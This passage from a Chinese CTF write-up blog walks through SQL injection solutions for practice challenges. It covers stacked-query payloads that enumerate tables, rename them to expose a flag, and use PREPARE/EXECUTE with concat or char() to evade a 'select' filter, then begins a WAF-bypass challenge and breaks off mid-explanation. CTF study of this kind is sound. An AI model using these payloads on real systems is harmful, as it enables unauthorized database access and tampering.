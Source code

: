 ```
?inject=1';show tables;%23
```

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020714.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_55215f35b7327ec59a0601a79c41e347.jpg)
 分别查看两个表的结构，如图：

```
?inject=1';desc `1919810931114514`;%23
?inject=1';desc words;%23
```

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020942.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_310e7e5b6178d475b4a969289073724a.jpg)

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020948.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_b60311754f522764ebac96573f46f15c.jpg)
 **注意，此处的表名1919\*需要加反引号，推测是关键字冲突或者数据类型的原因。**
 根据两张表的结构，猜测很有可能直接在输入框中进行的查询就是在words表中的，而真正的flag就在1919表中。
 因此我们可以直接修改两张表的名字，使得直接查询就是查询的1919表中的flag。
 此处需要注意的是，输入框默认查询的是words中的id列，但1919表中没有该列，因此只需要修改任意列为id或者增添一列为id即可。

```
?inject=1';rename table words to ttt; rename table `1919810931114514` to words; alter table words change flag id varchar(10) not null;%23
```

### 方法2

> 考点：sql语句预编译

由题目知道题目是过滤了select等关键字的，因此可以用预编译+concat绕过。
 此处提供几个payload:

```
?inject=1';PREPARE test from concat('se','lect',' * from `1919810931114514`');EXECUTE test; %23
?inject=1';SET @sql=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE test from @sql;EXECUTE test;%23
?inject=1';PREPARE test from concat(char(115,101,108,101,99,116),'* from `1919810931114514`');EXECUTE test;%23
```

## [极客大挑战 2019]Http

> 考点：http
> 注意X-Forwarded-For字段，用来标识连接到web服务器请求的ip地址。

## [RoarCTF 2019]Easy Calc

> 考点：
> waf的绕过
> php特殊字符的绕

首先查看源代码，发现网页开启了waf：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020958.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_1b3d351c3941779e69d6dcbb8d521261.jpg)
 发现网页是对get方法传入的参数进行URL编码，然后传递给calc.php进行处理。
 查看calc.php发现有代码：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817021001.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_2285cf7cc08f41e4914448f77cfdc88e.jpg)
 代码审计，发现过了了很多，然后直接有代码执行。
 想扫描目录文件，但是发现有过滤，因此用chr函数绕过：
